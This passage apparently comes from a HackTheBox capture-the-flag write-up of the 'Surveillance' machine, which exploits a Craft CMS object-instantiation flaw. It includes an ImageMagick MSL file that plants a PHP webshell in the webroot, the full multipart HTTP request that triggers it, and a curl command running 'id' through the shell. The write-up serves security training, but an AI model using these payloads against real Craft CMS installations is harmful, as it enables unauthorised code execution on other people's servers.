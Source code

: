     <?xml version="1.0" encoding="UTF-8"?>
    <image>
    <read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;" />
    <write filename="info:/var/www/html/craft/web/0xdf.php" />
    </image>
    --0xdf0xdf0xdf0xdf
    

The MSL file reads the static webshell text and writes it into the webroot
identified above.

Now I need to invoke that MSL using imagick. I’ll send that file upload
request to another Repeater window and make some changes:

  * I’ll remove the file block.
  * l use the same `vid` trick as in [Intentions](/2023/10/14/htb-intentions.html#arbitrary-object-instantiation) to reference the MSL file using a wildcard:

    
    
    POST /index.php HTTP/1.1
    Host: surveillance.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
    Content-Type: multipart/form-data; boundary=0xdf0xdf0xdf0xdf
    Content-Length: 411
    
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="action"
    
    conditions/render
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="test[userCondition]"
    
    craft\elements\conditions\users\UserCondition
    --0xdf0xdf0xdf0xdf
    Content-Disposition: form-data; name="config"
    
    {"name":"test[userCondition]","as xyz":{"class":"imagick","__construct()":{"files":"vid:msl:/tmp/php*"}}}
    --0xdf0xdf0xdf0xdf
    

This hangs for a second before returning 502 Bad Gateway.

But the webshell is in the web root:

    
    
    oxdf@hacky$ curl http://surveillance.htb/0xdf.php?cmd=id
    caption:uid=33(www-data) gid=33(www-data) groups=33(www-data)
     CAPTION 120x120 120x120+0+0 16-bit sRGB 2.250u 0:02.259
    

### Alternative Object Abuse

#### Strategy

The original author of the box took a slightly different path towards abusing
the arbitrary object instantiation to solve the issue of getting a webshell
following details in [this post](https://blog.calif.io/p/craftcms-rce) by the
vulnerability’s discoverer:
